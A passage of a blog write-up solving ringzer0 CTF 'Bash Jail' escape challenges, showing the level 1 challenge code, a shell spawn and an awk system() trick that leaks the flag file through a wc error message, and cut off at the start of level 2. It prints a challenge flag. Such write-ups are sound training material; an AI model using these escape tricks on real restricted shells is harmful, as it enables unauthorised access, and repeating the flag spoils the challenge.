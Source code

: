 +++
title = "ringzer0 CTF - Jail Escaping Bash"
author = "Victor Dorneanu"
date = "2016-06-20"
tags = ["ringzer0", "ctf", "wargames", "bash "]
category = "blog"
+++

Here are my solutions for the [ringzer0](https://ringzer0team.com) **Jail Escaping** shell challenges.

# Level1

```.shell
evel1@ringzer0team.com's password: 

RingZer0 Team Online CTF

BASH Jail Level 1:
Current user is uid=1000(level1) gid=1000(level1) groups=1000(level1)

Flag is located at /home/level1/flag.txt

Challenge bash code:
-----------------------------

while :
do
        echo "Your input:"
        read input
        output=`$input`
done 

-----------------------------
```

You can spawn a shell using:

```
/bin/bash
```

Although you **can't read** (you could redirect *stdout* to *stderr*) files, you can try to **run** commands based on the file content:

```.shell
level1@lxc17-bash-jail:~$ awk '{system("wc "$1)}' /home/level1/flag.txt 
wc: FLAG-U96l4k6m72a051GgE5EN0rA85499172K: No such file or directory
```

# Level 2

```.shell
level2@ringzer0team.com's password: 

RingZer0 Team Online CTF

BASH Jail Level 2:
Current user is uid=1001(level2) gid=1001(level2) groups=1001(level2)

Flag is located at /home/level2/flag.txt

Challenge bash code:
-----------------------------

function check_space {
```